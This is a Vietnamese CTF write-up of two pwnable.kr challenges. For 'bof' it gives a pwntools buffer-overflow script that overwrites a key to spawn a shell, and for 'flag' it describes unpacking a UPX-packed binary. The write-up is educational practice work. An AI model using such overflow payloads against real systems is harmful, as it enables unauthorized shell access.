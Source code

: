 Bài này có canary, tuy nhiên chỉ cần ghi đè key và thực thi được hàm **system("/bin/sh")** để lấy shell thì việc check canary sẽ không bị ảnh hưởng.

```bash
Arch:       i386-32-little
RELRO:      Partial RELRO
Stack:      Canary found
NX:         NX enabled
PIE:        PIE enabled
Stripped:   No
```

Để đè được key thì cần padding: 32 (overflowme) + 4 (canary) + 4 (save ebp) + 4 (ret) + 8 (padding, tham số đầu tiên sẽ là ebp + 8) = 52 bytes

```python
from pwn import *

exe = ELF("./bof", checksec=False)
# p = process(exe.path)
p = remote("pwnable.kr", 9000)

payload = b"A" * 52
payload += p32(0xcafebabe)

p.sendline(payload)

p.interactive()
```

### flag

```txt
Start day: 9/3/2025
End day: 9/3/2025
Evaluate: Beginner
```

```txt
Information: 7 point

Papa brought me a packed present! let's open it.

Download : http://pwnable.kr/bin/flag

This is reversing task. all you need is binary
```

Bài này là một bài reverse cơ bản, mở nó lên bằng IDA thì thấy không có gì => Dùng DIE để mở lên thì thấy chương trình bị pack bởi UPX

![alt img](/img/2025/pwnable.kr/image-2.png)

Unpack và mở lên lại bằng IDA và lấy được flag

![alt img](/img/2025/pwnable.kr/image-3.png)
